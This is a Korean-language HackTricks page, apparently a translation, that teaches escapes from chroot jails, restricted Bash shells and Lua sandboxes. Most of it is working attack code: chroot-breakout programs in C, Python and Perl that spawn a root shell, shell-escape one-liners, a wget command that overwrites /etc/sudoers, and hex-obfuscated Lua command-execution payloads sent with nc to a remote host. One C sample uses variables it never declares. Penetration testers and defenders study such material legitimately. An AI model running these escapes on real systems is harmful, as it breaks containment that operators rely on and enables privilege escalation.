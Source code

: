 # 감옥 탈출

{% hint style="success" %}
AWS 해킹을 배우고 실습하세요:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹을 배우고 실습하세요: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** 깃허브 저장소에 PR을 제출하여 해킹 요령을 공유하세요.

</details>
{% endhint %}

## **GTFOBins**

**"Shell" 속성을 가진 바이너리를 실행할 수 있는지 확인하려면** [**https://gtfobins.github.io/**](https://gtfobins.github.io) **에서 검색하세요**

## Chroot 탈출

[wikipedia](https://en.wikipedia.org/wiki/Chroot#Limitations)에서: chroot 메커니즘은 **root 권한을 가진 의도적인 변조에 대항하기 위한 것이 아니다**. 대부분의 시스템에서 chroot 컨텍스트는 제대로 쌓이지 않으며 충분한 권한을 가진 chrooted 프로그램은 **탈출하기 위해 두 번째 chroot를 수행**할 수 있다.\
보통 이는 탈출하기 위해 chroot 내에서 root가 되어야 한다는 것을 의미한다.

{% hint style="success" %}
**chw00t** **도구**는 [**chw00t**](https://github.com/earthquake/chw00t) 다음 시나리오를 악용하고 `chroot`에서 탈출하는 데 사용됩니다.
{% endhint %}

### Root + CWD

{% hint style="warning" %}
만약 chroot 내에서 **root** 권한을 가지고 있다면 **다른 chroot를 생성**하여 탈출할 수 있습니다. Linux에서 2개의 chroot가 공존할 수 없기 때문에 새 폴더를 만들고 그 새 폴더에서 **새 chroot를 생성**하면 **새 chroot 바깥에 있게** 되어 **새 chroot 바깥에** 있게 됩니다.

일반적으로 chroot는 작업 디렉토리를 지정한 곳으로 이동시키지 않기 때문에 chroot를 생성할 수 있지만 그 바깥에 있을 수 있습니다.
{% endhint %}

보통 chroot 감옥 안에 `chroot` 바이너리를 찾을 수 없지만 **바이너리를 컴파일하고 업로드하고 실행**할 수 있습니다:

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("chroot-dir", 0755);
chroot("chroot-dir");
for(int i = 0; i < 1000; i++) {
chdir("..");
}
chroot(".");
system("/bin/bash");
}
```
</details>

<details>

<summary>파이썬</summary>
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
```
</details>

<details>

<summary>펄 (Perl)</summary>
```perl
#!/usr/bin/perl
mkdir "chroot-dir";
chroot "chroot-dir";
foreach my $i (0..1000) {
chdir ".."
}
chroot ".";
system("/bin/bash");
```
</details>

### 루트 + 저장된 fd

{% hint style="warning" %}
이것은 이전 경우와 유사하지만, 이 경우 **공격자는 현재 디렉토리에 파일 디스크립터를 저장**한 다음 **새 폴더에서 chroot를 생성**합니다. 마지막으로, 그가 chroot 외부에서 해당 **FD에 액세스할 수 있기 때문에** 해당 FD에 액세스하여 **탈출**합니다.
{% endhint %}

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("tmpdir", 0755);
dir_fd = open(".", O_RDONLY);
if(chroot("tmpdir")){
perror("chroot");
}
fchdir(dir_fd);
close(dir_fd);
for(x = 0; x < 1000; x++) chdir("..");
chroot(".");
}
```
</details>

### 루트 + 포크 + UDS (유닉스 도메인 소켓)

{% hint style="warning" %}
UDS를 통해 FD를 전달할 수 있으므로:

* 자식 프로세스(fork) 생성
* 부모 및 자식이 통신할 수 있는 UDS 생성
* 다른 폴더에서 자식 프로세스에서 chroot 실행
* 부모 프로세스에서 새 자식 프로세스 chroot 외부의 폴더의 FD 생성
* UDS를 사용하여 해당 FD를 자식 프로세스에 전달
* 자식 프로세스가 해당 FD로 chdir하면 chroot 외부에 있기 때문에 감옥을 탈출할 수 있습니다.
{% endhint %}

### 루트 + 마운트

{% hint style="warning" %}
* 루트 디바이스 (/)를 chroot 내부 디렉토리로 마운트
* 해당 디렉토리로 chroot
이것은 Linux에서 가능합니다.
{% endhint %}

### 루트 + /proc

{% hint style="warning" %}
* procfs를 chroot 내부 디렉토리로 마운트 (아직 마운트되지 않은 경우)
* 루트/cwd 항목이 다른 pid를 찾아보세요. 예: /proc/1/root
* 해당 항목으로 chroot
{% endhint %}

### 루트(?) + 포크

{% hint style="warning" %}
* 포크(자식 프로세스)를 생성하고 FS 내부의 다른 폴더로 chroot하고 CD를 실행합니다.
* 부모 프로세스에서 자식 프로세스가 있는 폴더를 자식의 chroot 이전 폴더로 이동합니다.
* 이 자식 프로세스는 chroot 외부에 자신이 있는 것을 발견할 것입니다.
{% endhint %}

### ptrace

{% hint style="warning" %}
* 예전에 사용자들은 자신의 프로세스를 자신의 프로세스에서 디버깅할 수 있었지만, 이제는 기본적으로 불가능합니다.
* 그래도 가능하다면 프로세스로 ptrace하여 해당 프로세스 내에서 셸코드를 실행할 수 있습니다 ([이 예제 참조](linux-capabilities.md#cap\_sys\_ptrace)).
{% endhint %}

## Bash 감옥

### 열거

감옥에 대한 정보 가져오기:
```bash
echo $SHELL
echo $PATH
env
export
pwd
```
### PATH 수정

PATH 환경 변수를 수정할 수 있는지 확인합니다.
```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```
### vim 사용하기
```bash
:set shell=/bin/sh
:shell
```
### 스크립트 생성

_/bin/bash_를 내용으로 하는 실행 가능한 파일을 생성할 수 있는지 확인합니다.
```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```
### SSH를 통해 bash 얻기

SSH를 통해 액세스하는 경우 다음 트릭을 사용하여 bash 셸을 실행할 수 있습니다:
```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```
### 선언하기
```bash
declare -n PATH; export PATH=/bin;bash -i

BASH_CMDS[shell]=/bin/bash;shell -i
```
### Wget

예를 들어 sudoers 파일을 덮어쓸 수 있습니다.
```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```
### 다른 속임수

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/0**b**6/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io)\
**또한 다음 페이지도 흥미로울 수 있습니다:**

{% content-ref url="../bypass-bash-restrictions/" %}
[bypass-bash-restrictions](../bypass-bash-restrictions/)
{% endcontent-ref %}

## Python 감옥

다음 페이지에서 파이썬 감옥을 탈출하는 속임수에 대해 알아볼 수 있습니다:

{% content-ref url="../../generic-methodologies-and-resources/python/bypass-python-sandboxes/" %}
[bypass-python-sandboxes](../../generic-methodologies-and-resources/python/bypass-python-sandboxes/)
{% endcontent-ref %}

## Lua 감옥

이 페이지에서는 루아 내에서 액세스할 수 있는 전역 함수를 찾을 수 있습니다: [https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**명령 실행과 함께 Eval:**
```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```
일부 라이브러리의 함수를 **점을 사용하지 않고 호출하는 데 사용되는 몇 가지 트릭**은 다음과 같습니다:
```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```
라이브러리의 함수를 나열하십시오:
```bash
for k,v in pairs(string) do print(k,v) end
```
참고로 **다른 lua 환경에서 이전 원 라이너를 실행할 때 함수의 순서가 변경**됩니다. 따라서 특정 함수를 실행해야 할 경우 다른 lua 환경을 로드하고 le 라이브러리의 첫 번째 함수를 호출하는 브루트 포스 공격을 수행할 수 있습니다:
```bash
#In this scenario you could BF the victim that is generating a new lua environment
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```
**대화형 lua 셸 가져오기**: 제한된 lua 셸 내부에 있다면 다음을 호출하여 새로운 lua 셸(그리고 희망적으로 무제한)을 얻을 수 있습니다:
```bash
debug.debug()
```
## 참고 자료

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (슬라이드: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))

{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* 해킹 요령을 공유하려면 **HackTricks** 및 **HackTricks Cloud** 깃허브 저장소로 PR을 제출하세요.

</details>
{% endhint %}
